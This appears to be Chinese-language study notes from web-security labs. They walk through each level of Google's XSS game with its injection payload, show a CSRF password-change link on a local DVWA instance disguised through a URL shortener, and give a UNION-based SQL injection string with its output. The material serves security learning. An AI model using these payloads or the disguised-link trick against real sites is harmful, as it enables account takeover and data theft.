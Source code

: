 ## XSS

> XSS（Cross-Site Scripting）攻击是通过在网页中注入恶意脚本代码，当其他用户浏览该网页时，恶意脚本会在用户的浏览器中执行，从而盗取用户信息、篡改网页内容等。

测试： https://xss-game.appspot.com/

这个题目是一个逐渐变难的过程，前面用过的办法，后面都会被过滤掉。



Leve1:  没做任何转义

```html
<script>alert()</script>
```

Leve2: <script></script>标签都被过滤不能生效, 使用其他标签就可以绕过了。

**解法1:**插入一个带有无效 URL 的*图像标记*和一个将执行 JavaScript 警报的onerror属性

```html
<img src='x' onerror='alert()'>
```





Leve3: 

```html
问题1:  会截取路由的第一个参数   
chooseTab(unescape(self.location.hash.substr(1)) || "1");

问题2:  通过用单引号关闭src属性来欺骗它，然后像上一关一样添加带有警报函数的onerror属性，并使用双斜杠注释“.jpg”部分
html += "<img src='/static/level3/cloud" + num + ".jpg' />";


解法1:使用：' onerror='alert();//
<img src='/static/level3/cloud1' onerror='alert();//.jpg' />

解法2:'/><sCript>alert();</scrIpt> 因为没有处理大小写还能用script
<img src='/static/level3/cloud1'/><sCript>alert();</scrIpt>.jpg' />
```

Leve4:

```html
<img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />

使用: ');alert();// 相当于让这个函数结束
<img src="/static/loading.gif" onload="startTimer('{{ ');alert();// }}');" />
```

Leve5: confim.html中的值是取自路径信息上的

```html
<a href="{{ next }}">Next >></a> 这个是取自路径信息

使用javascript:alert() 修改路径，然后点击go，在点next
...signup?next=javascript:alert() 
```

Leve6: 下面显示的内容是路径信息，就需要对路径做变化

```js
代码里面显示https不让请求资源，把https换成http    
if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
使用： data:text/plain,alert('xss')
https://xss-game.appspot.com/level6/frame#data:text/plain,alert('xss')
```

### CSRF

> CSRF（Cross-Site Request Forgery）攻击是一种利用用户身份进行未授权操作的攻击方式。攻击者通过诱导用户访问一个恶意网站或点击恶意链接，利用用户在该网站上的会话（如Cookie）向目标网站发送请求，执行一些未授权的操作，如修改个人信息、转账等。

```shell
docker pull vulnerables/web-dvwa 
docker run -d --rm  --name dvwa  -it -p 80:80 vulnerables/web-dvwa  /bin/bash


localhost:80 
admin;password
```

![image-20240907233808839](./../images/image-20240907233808839.png)

这个是一个修改密码的例子



短链接

https://xiaomark.com/



我们修改密码的链接

http://localhost/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change#

变成了这个东西

https://sourl.cn/MQkq9G 

### SQL注入

![image-20240907234503390](./../images/image-20240907234503390.png)

输入 1' UNION SELECT 1,database() from information_schema.schemata#

提示

```js
ID: 1' UNION SELECT 1,database() from information_schema.schemata#
First name: admin
Surname: admin
ID: 1' UNION SELECT 1,database() from information_schema.schemata#
First name: 1
Surname: dvwa
```